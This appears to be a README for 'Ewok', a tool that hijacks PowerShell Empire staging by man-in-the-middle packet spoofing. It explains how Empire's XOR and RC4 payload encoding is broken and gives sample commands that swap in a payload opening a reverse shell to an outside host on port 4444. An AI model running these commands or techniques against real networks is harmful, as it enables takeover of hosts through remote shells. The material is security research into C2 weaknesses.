 Ewok is a utility that demonstrates man-in-the-middle (MiTM) [counter]attacks
against Powershell Empire. 

Powershell Empire is a well designed, extremely functional, and very useful
remote administration tool for Microsoft Windows hosts. It is a wise choice 
for anyone who wishes to maintain control over a compromised Microsoft Windows
host. However, its staging process is also vulnerable to MiTM.

This program is primarily a packet sniffer. Anyone wishing to use it in a live
environment should have the following:

- Access to network traffic for the compromised host(s)
- Network access to the TCP port running the Powershell Empire staging server

When this program is used in a live environment, it does the following:

1) It reaches out to the staging server and acquires a live stage 2 payload
2) It repackages that payload with its own software
3) It delivers the payload by using packet spoofing to "overwrite" the HTTP
responses from the staging server.

However, the program can be used to assist in these attacks by constructing
the payload that would presumably be delivered in a manner of the user's
choosing. If the user wants to redirect web traffic to an alternate web server
instead of the staging server, for example, the payload can be delivered that
way too.

[Counter] Attacks against Powershell Empire 1.x will require the user to know
the URL for the staging server. The URL may be acquired through brute-force, 
although this functionality is currently not implemented.

Here is a sample command line for targeting Powershell Empire 1.6:

	./ewok.salad -u http://10.1.1.10:8080/login/process.php -c 172.16.0.5
	# This command acquires the stage 2 payload from the URL listed, 
	# and then delivers a modified payload that causes the compromised
	# host to execute a reverse shell to 172.16.0.5:4444 instead of
	# introducing Powershell Empire remote administration software.

[Counter] Attacks against Powershell Empire 2.x will require a valid 
"session cookie". This valid is delivered to the staging server and mimic's
an actual session cookie that might be used to track web users.
This value is a base64 encoded chunk of encrypted data. When decrypted,
it is a binary description of the data the staging script is requesting.
We are most concerned with the 11th byte of this field, because it describes
the language that the next set of instructions will be written in. In practice,
its value will be either 0x01 for Powershell or 0x02 for Python. The Python
payload is easier to modify, so the software alters this value, if the staging
server returns the "wrong" script initially. Because the cookie is encrypted
with RC4, modifying it to cause the server to return the desired script takes
only the three following steps:
1) Decode the "session cookie" as a base64 encoded string
2) XOR byte 12 against 0x03
3) Re-encode the modified data as a base64 encoded string
4) Request the script again

Here is a sample command line for targeting Powershell Empire 2.0:

	./ewok.salad -s WVUP/J2edjRlqEH9ctiRu75mpOM= -u http://10.1.1.10/login/process.php -t ./template -c 172.16.0.5
	# This command acquires the stage 2 payload, and if necessary, requests
	# the Python version of this software. It then repackages it with the
	# desired software. By default, this software is a Powershell "reverse
	# shell. The host specified with the "-c" flag is the host that will
	# receive this reverse shell on TCP port 4444
	# The "-t" flag designates the plaintext version of the data we are 
	# expecting to acqurie. We assume that "./template" in this example is
	# the Python staging software.

This above example requires the user to have a plaintext version of the Python
staging software. This file is actual software, and distributing it without the
consent of its authors is problematic. Users can acquire their own copy by 
executing the following command (the script is included in this distribution:

	./grabtemplate.sh ./template.sh

This program also allows users to create their own stage 2 payload for 
distribution elsewhere. The "-o" flag will allow for this payload to be 
written to a file.

Powershell Empire's stage 1 (we aren't counting from 0) staging script is what
it's users may observe when introducing this software via a command line. 
The commands that typically introduce this software to a compromised host 
include a base64 encoded string that decodes to the "stage 1" script. This 
script is relatively small, and does the following tasks:

1) Request the [much larger] stage 2 payload from the staging server via
HTTP
2) Decrypt (version 2.0) or de-obfuscate (version 1.x) the stage 2 payload
with the shared secret key
3) Execute this payload

The stage 1 script does not check signatures or validate the payload before
executing what it has decrypted/deobfuscated. This utility repackages the
"stage 2" payload and delivers it through packet spoofing. Assuming that
"ewok" has the proper network access, it will overwrite the HTTP responses
so that the "stage 1" script will download and decrypt/deobfuscate its 
scripts instead of the actual Powershell Empire stage 2 script.

"Ewok" accomplishes the repackaging by attacking the encoding/encryption of 
these payloads. Version 1.x uses XOR and a shared secret key to encode/decode
this payload. Because the plaintext is a Powershell Script, we can predict the
frequencies that certain characters occur. Some will occur much more often than
others. Furthermore, the key that it uses to XOR/unXOR the payload is an ASCII
representation of a hexadecimal number. Therefore there are only 16 possible
values for each offset. The limited keyspace and the predictability of the 
plaintext enable [counter]attackers to acquire the key through accomplishes
modeling. "Ewok" does this, and uses the key to create a new payload.

The repackaging for 2.x payloads is slightly different. RC4 is vulnerable to
MiTM, assuming that the [counter]attacker knows the plaintext. "Ewok" requests
the Python payload, because it has much less entropy than the Powershell 
payload, due to Powershell Empire's randomization of case for Powershell
commands.
